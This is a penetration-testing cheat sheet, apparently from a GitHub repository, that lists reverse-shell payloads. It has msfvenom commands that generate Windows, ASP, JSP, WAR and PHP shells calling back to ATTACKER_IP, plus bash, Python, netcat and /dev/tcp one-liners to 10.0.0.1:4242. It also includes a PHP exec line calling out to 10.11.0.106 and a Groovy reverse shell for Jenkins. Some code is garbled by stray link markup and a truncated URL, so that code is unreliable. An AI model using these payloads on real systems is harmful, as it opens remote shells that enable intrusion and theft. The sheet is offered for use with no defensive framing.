 # Exploiting

### Exploitation

#### Reverse Shells

#### Msfvenom

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe > shell-x64.exe
msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f war > shell.war
msfvenom -p php/reverse_php LHOST=ATTACKER_IP LPORT=PORT -f raw > shell.php
```

#### One Liners

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```python
python -c 'import socket,os,pty;s=socket.socket([socket.AF](<http://socket.AF>)_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

```bash
nc -e /bin/sh 10.0.0.1 4242
```

```bash
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done
```

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.11.0.106/443 0>&1'");?>
```

**#For powershell use the encrypted tool that's in Tools folder**

💡 While dealing with PHP reverse shell use: [https://github.com/ivan-sincek/php-reverse-](https://github.com/ivan-sincek/php-reverse-)

#### Groovy reverse-shell

For Jenkins

```groovy
String host="[localhost](<http://localhost>)";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write([pi.read](<http://pi.read>)());while(pe.available()>0)so.write([pe.read](<http://pe.read>)());while(si.available()>0)po.write([si.read](<http://si.read>)());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
